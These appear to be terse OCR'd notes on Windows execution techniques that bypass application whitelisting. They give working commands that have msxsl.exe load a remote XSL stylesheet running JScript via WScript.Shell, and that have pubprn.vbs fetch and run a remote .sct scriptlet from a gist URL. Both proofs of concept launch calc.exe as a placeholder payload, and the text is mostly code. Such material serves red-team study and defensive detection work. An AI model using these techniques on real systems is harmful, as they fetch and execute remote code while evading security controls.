 	- https://www.microsoft.com/en-us/download/details.aspx?id=21714

		- msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xsl
		- demo.xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
		- exec.xsl
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;

   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>

- pubprn.vbs

	- "C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct

		- test.sct
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
    >
</registration>
<script language="JScript">
<![CDATA[
        var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>   
